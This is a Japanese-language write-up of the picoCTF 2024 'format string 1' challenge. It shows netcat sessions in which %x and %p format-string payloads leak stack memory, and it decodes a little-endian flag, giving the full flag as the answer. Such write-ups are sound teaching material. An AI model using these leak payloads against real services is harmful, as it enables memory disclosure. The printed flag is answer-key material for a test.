 # format string 1:Binary Exploitation

Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!\
Download the binary [here](https://github.com/colza12/ctf_writeup/blob/main/picoCTF%202024/format%20string%201/format-string-1).\
Download the source [here](https://github.com/colza12/ctf_writeup/blob/main/picoCTF%202024/format%20string%201/format-string-1.c).\
Connect with the challenge instance here: `nc mimas.picoctf.net 49971`

# Solution

secret menuなるものを探せとのことである。とりあえず、`nc mimas.picoctf.net 49971`を実行してみる。
```
$ nc mimas.picoctf.net 49971
Give me your order and I'll read it back to you:
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Here's your order: 402118064318a000146a880a347834fdd41ef064109e606432e4d01fdd41fc0006f6369706d316e34333179373431665f646635337643308d87743072506c797453964341de9641120986432e4d00fdd41fd078257825782578257825782578257825
Bye!
```

いきなり、書式文字列攻撃とみたてて%xを大量に投げたら、途中から%xの16進が連続したので、それまでの部分で何かフラグっぽいものを探す。picoは`70 69 63 6f`なのでこれをヒントに探すと、`6f636970`という部分を発見。リトルエンディアンでフラグが格納されているようだ。ただし、フラグの一部が欠落しているので、入力を`%p`に変えてもう一度実行する。
```
$ nc mimas.picoctf.net 58878
Give me your order and I'll read it back to you:
%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Here's your order: 0x402118(nil)0x71c498968a00(nil)0x6628800xa3478340x7fffe8b2bc100x71c498759e600x71c49897e4d00x10x7fffe8b2bce0(nil)(nil)0x7b4654436f636970
```
14個目あたりにフラグっぽいやつが出てきた。入力を`%14$p%15$p%16$p%17$p%18$p`に変えてフラグを出力させる。
`0x7b4654436f6369700x355f31346d316e340x3478345f333179370x31395f673431665f0x7d653464663533`これが出てきたのでcyberchefに投げる。
From Hexで`{FTCocip5_14m1n44x4_31y719_g41f_}e4df53`と出てきたので、8文字ずつ並べ変える。


`picoCTF{4n1m41_57y13_4x4_f14g_9135fd4e}`


